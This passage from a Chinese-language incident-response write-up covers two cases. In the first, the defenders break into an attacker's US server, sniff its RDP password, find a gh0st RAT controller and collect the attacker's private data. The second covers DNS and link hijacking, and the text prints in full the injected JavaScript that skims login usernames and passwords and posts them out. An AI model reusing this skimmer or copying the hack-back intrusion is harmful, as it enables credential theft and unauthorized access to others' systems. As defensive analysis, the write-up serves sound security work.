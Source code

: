 对这台服务器进行清理后，我们仍然没有放弃对攻击者的反渗透，这次我们发现攻击者还有美国的 IP，对其渗透，最终通过 c 断进行 cain 嗅探到 3389 的密码。

登录到这台美国 IP 的服务器后，发现上面运行着 gh0st 的控制端，我们内网仍然有一台服务器处于上线状态。

![enter image description here](http://drops.javaweb.org/uploads/images/0f4b61fc98b43e5c822a2a40b727df1c246f7de9.jpg)

其实到这里这次事件就能告一段落了，关于攻击者我们在这台美国的服务器上发现了攻击者的多个 QQ 和密码，登录邮箱后找到了攻击者的简历等私人信息，还有就是我们之前也获取到攻击者在国内某安全论坛帐号。其实到这里我们能够确定攻击者是谁了。

![enter image description here](http://drops.javaweb.org/uploads/images/b4b0e69c52440db56a8036ee3aaf6c8a6e5ec919.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/d9275fe35e54c315bf0017c196e09f916398ad43.jpg)

0x06 案例之永无止境的劫持
=====

对于劫持我想大家都不陌生，我们在生活中比较常见到的就是运营商在页面中插入广告等代码，这种就是一种劫持攻击。

回到案例本身，我们的一个业务先后出现多次多种手段的劫持攻击，一次是 dns 劫持，把业务的域名劫持到 61.* 这个 ip 上，另外一次是链路劫持，替换服务器返回给用户的 http 响应内容，这两次的目的都一样就是在登录口添加 js 代码，用于窃取用户的用户名和明文密码。我们另外一个业务也遭受链路劫持，直接替换客户投放的广告代码，给业务造成很大的经济损失。

下面两个图是我们业务监控系统和基调的截图，上面的图可以很明显看到在 9:30 用户登录成功数明显下降，持续不到一个小时，下图是全国部分地区基调的数据，可以看到域名被明显劫持到 61 这个 ip，这是一次典型的 DNS 攻击。

![enter image description here](http://drops.javaweb.org/uploads/images/b87608c189e9533e4782db674c3132ed6f7fac2e.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/89b5712c135d8bfea3501b7081864ec6e183aecb.jpg)

页面中被插入的攻击核心代码

```
//获取用户名和密码
function ffCheck() {
    try {
        try {
            var u = null != f ? f.idInput.value : document.getElementById("idInput").value;
        } catch (e) {
            var u = (document.getElementById("idInput").innerHTML).replace(/\s/g, "");
        }
        var p = null != f ? f.pwdInput.value : document.getElementById("pwdInput").value;
        if (u.indexOf("@") == -1) u += "@xxx.com";
        try {
            if (u.indexOf("@") == -1) u = u + getdomain();
        } catch (e) {}
        sendurl("/abc", u, p, "coremail");
    } catch (e) {}
    return fOnSubmit();
}

通过 ajax 发送出去
function sendurl(uri, u, p, i) {
xmlHttp = GetXmlHttpObject();
if (xmlHttp == null) {
    return;
}
param = "user=" + u + "&pass=" + p + "&icp=" + i;
xmlHttp.onreadystatechange = stateChanged;
try {
    xmlHttp.open("POST", uri + "?t=" + (new Date()).valueOf(), true);
} catch (e) {}
xmlHttp.setRequestHeader("If-Modified-Since", "0");
xmlHttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xmlHttp.send(param);
}

```
